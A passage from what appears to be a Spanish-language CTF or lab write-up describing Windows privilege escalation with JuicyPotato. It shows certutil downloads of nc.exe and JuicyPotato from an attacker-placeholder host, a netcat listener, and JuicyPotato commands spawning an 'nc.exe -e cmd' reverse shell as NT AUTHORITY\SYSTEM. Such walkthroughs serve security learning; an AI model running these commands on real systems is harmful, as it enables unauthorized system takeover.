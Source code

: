 ## Escalada de privilegios

Si vemos nuestros privilegio con `whoami /priv` veremos que tenemos `SetImpersonatePrivilege`. Esto quiere decir que es vulnerable a JuicyPotato.

En mi caso lo descargué desde [ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).

Ahora hay que transferir `nc.exe` y `JuicyPotato.exe` a la máquina víctima. Para ellos nos movemos a `c:\windows\temp\privesc` para que no haya problemas de permisos. 

Nos ponemos en escucha por el servicio *http* con python en la carpeta donde se encuentran los dos ejecutables:

```bash
sudo python3 -m http.server 80
```

<br/>

Y los descargamos desde la máquina víctima con `certutil.exe`:

```cmd
certutil.exe -f -urlcache -split http://<ip_atacante>/nc.exe nc.exe
certutil.exe -f -urlcache -split http://<ip_atacante>/JuicyPotato.exe JuicyPotato.exe
```
<br/>

Una vez con los ejecutables en la máquina víctima, nos ponemos en escucha en la máquina atacante para entablar otra *reverse shell* (en mi caso usaré el puerto **4321**):

```bash
sudo rlwrap nc -nlvp 4321
```
<br/>

Y ahora usamos el `JuicyPotato.exe` en la máquina víctima:

```cmd
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd <ip atacante> 4321"
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd <ip atacante> 4321"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Windows\Temp>JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd <ip atacante> 4321"
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd <ip atacante> 4321"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
...........................................
c:\Windows\Temp>JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd <ip atacante> 4321"
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd <ip atacante> 4321"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
```
<br/>
